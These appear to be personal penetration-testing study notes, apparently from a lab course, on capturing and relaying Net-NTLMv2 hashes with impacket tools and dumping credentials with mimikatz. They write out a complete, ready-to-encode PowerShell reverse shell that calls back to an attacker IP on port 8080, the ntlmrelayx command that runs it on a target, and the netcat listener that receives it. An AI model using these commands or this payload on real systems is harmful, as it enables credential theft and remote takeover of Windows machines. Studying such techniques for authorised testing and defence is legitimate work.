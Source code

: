 can also capture the hash by running 
```
impacket-smbserver share ~/smbshare -smb2support
```
and sending the auth req


## Relaying Net-NTLMv2

starting the impacket ntlm relay module, where -t is the target ip, and -c is the command 
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc <encoded-cmd>"
```

 
Then follow the below cmds to encode it using powershell
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.207",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' 
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText =[Convert]::ToBase64String($Bytes) 
```
```
$EncodedText
```

START THE LISTENER USING 
```
nc -nvlp 8080
```

from the shell with the existing account,
```
dir \\<KALI-IP>\test
```


### AVOIDING Windows Credential Guard

```
Get-ComputerInfo
```
![[Pasted image 20250728224736.png]]
With the terminal open we'll navigate to **C:\tools\mimikatz\** and run **mimikatz.exe**. Once Mimikatz is launched, we'll enable the SeDebugPrivilege for our local user and dump all the available credentials with **sekurlsa::logonpasswords**.
![[Pasted image 20250728224810.png]]
The output shows that while we know the _Administrator_ user of the _CORP.COM_ domain has logged into this box, we can't obtain the cached hashes because the LSASS process only has access to this information after it has been encrypted by the LSAISO process.
